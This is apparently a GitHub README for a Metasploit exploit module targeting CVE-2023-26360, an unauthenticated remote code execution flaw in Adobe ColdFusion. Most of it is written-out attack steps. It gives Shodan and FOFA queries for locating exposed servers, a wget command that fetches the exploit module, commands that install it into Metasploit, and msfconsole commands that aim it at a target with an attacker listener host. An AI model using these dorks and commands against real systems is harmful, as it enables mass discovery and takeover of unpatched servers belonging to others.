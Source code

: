 # CVE-2023-26360
Adobe ColdFusion Unauthenticated Remote Code Execution Exploit  

- Shodan dork:
```
CFIDE port:"8500"
```
- FOFA dork:
```
body="CFIDE"&&port="8500"
```
  
## Install
```
wget https://raw.githubusercontent.com/getdrive/PoC/main/2023/Adobe_Cold_Fusion_CVE-2023-26360/adobe_coldfusion_rce_cve_2023_26360.rb
```
```
cp adobe_coldfusion_rce_cve_2023_26360.rb /usr/share/metasploit-framework/modules/exploits/multi/http/
```
```
## Usage
```
msfdb reinit; msfconsole -q
```
```
msf6 > use exploit/multi/http/adobe_coldfusion_rce_cve_2023_26360.rb
```
```
msf6 exploit(multi/http/adobe_coldfusion_rce_cve_2023_26360) > set rhosts target_IP
msf6 exploit(multi/http/adobe_coldfusion_rce_cve_2023_26360) > set lhost attacker_IP
msf6 exploit(multi/http/adobe_coldfusion_rce_cve_2023_26360) > run
```

